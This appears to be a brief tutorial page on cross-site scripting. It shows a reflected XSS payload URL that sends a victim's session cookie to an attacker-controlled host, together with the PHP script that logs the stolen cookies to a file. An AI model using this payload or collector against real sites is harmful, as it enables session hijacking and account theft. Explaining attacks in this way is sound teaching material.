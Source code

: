 ## **What Can Attacker Do With The XSS ?**

**Cross site scripting attacks can be used to achieve many goals**

- **Cookie stealing**
- **Getting complete over a browser**
- **Initiating an exploitation phase against browser plugins first and then the machine**
- **Perfom keylogging**

## **Stealing Cokkie With XSS Sample**

**Lets assume that the ultimate goal of an hacker is to run JavaScript to steal a sesion cookie of a user John Doe who is authenticated into web site site2.com**\
**The first thing the hacker tries to do is to find an XSSvulnerability affecting website**\
**Once an XSS is located , attacker will have to build up a payload, create link and sent it to victim inviting the same to click on it. (This is called refleccted xss)**

`http://site2.com/vulnerablexss.php?name=<script>var i=new Image(); i.src="http://site1.com/steal.php?q="%2bdocument.cookie;</script>`

Here is the attacker malicous web site to steal cookie of the user. (site1.com/steal.php web site is made by attacker)

```
<?php

$fn="log.txt";
$fh=fopen($fn,'a');
$cookie=$_GET['q'];
fwrite($fh,$cookie);
fclose($fh);

?>
```

Attacker open txt file and write to cookie value of vulnerable web site to the this file.

---

Firstly attacker find xss on the victim site

![Image](/img/stealcookiexss.png)

Then Attacker send malicious link to the user and user click on it

![Image](/img/clicked.png)

Attacker write cookie value to the log.txt file

![Image](/img/readcookie.png)
